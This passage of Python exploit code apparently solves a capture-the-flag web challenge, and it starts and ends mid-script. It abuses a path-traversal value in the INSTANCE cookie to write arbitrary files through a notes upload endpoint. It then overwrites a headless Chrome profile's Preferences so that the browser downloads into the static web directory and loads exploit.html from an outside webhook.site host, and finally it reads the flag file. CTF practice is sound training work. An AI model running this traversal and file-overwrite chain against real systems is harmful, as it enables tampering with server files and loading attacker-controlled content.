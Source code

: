 ```python
    })

def getting_instance_id():
    register("hello1", "hello")
    login("hello1", "hello")
    instance_id = session.cookies.get('INSTANCE')
    print("[+] got the instance id", instance_id)
    return instance_id

def arbitrary_file_write(path, content):
    s = requests.Session()  # Use separate session to avoid cookie pollution
    directory, filename = os.path.dirname(path), os.path.basename(path)

    s.cookies.set("INSTANCE", f"/../../../../..{directory}")  # Set malicious path
    s.post(HOST + "/api/register", json={"username": "..", "password": "pw"})  # Server sets clean cookie, overwriting yours
    s.post(HOST + "/api/login", json={"username": "..", "password": "pw"})
    s.cookies.set("INSTANCE", f"/../../../../..{directory}")  # ✅ Re-set it again after login
    s.post(HOST + "/api/notes/upload", files={"file": (filename, content)})
    print("[+] Arbitrary file write done to", path)

def reading_flag():
    response = session.get(HOST+"static/flag.txt")
    print("[FLAG] -> ", response.text)

preferences1 = {
    "download": {
        "default_directory": "/app/static"
    },
    "session": {
        "restore_on_startup": 4,
        "startup_urls": ["https://webhook.site/5b39a592-9fb2-445c-a676-dc0e44535977/exploit.html"]
    }
}

content1 = json.dumps(preferences1).encode()

preferences2 = {
    "download": {
        "default_directory": "/tmp"
    },
    "session": {
        "restore_on_startup": 4,
        "startup_urls": [{}]
    }
}

content2 = json.dumps(preferences2).encode()

if __name__ == "__main__":
    print("[*] register a user")
    instance_id = getting_instance_id()
    reporting_the_url(HOST)
    print("[*] reporting url for making chrome_profile files")
    time.sleep(5)
    arbitrary_file_write(f"/app/instances/{instance_id}/chrome_profile/Default/Preferences",
                       content1)
    print("[*] changed the preference file for download directory as /app/static and webhook as startup url")
    reporting_the_url(HOST)
    print("[*] report url for pinging webhook fetching exploit.html")
    time.sleep(3)
    arbitrary_file_write(f"/app/instances/{instance_id}/chrome_profile/Default/Preferences",
```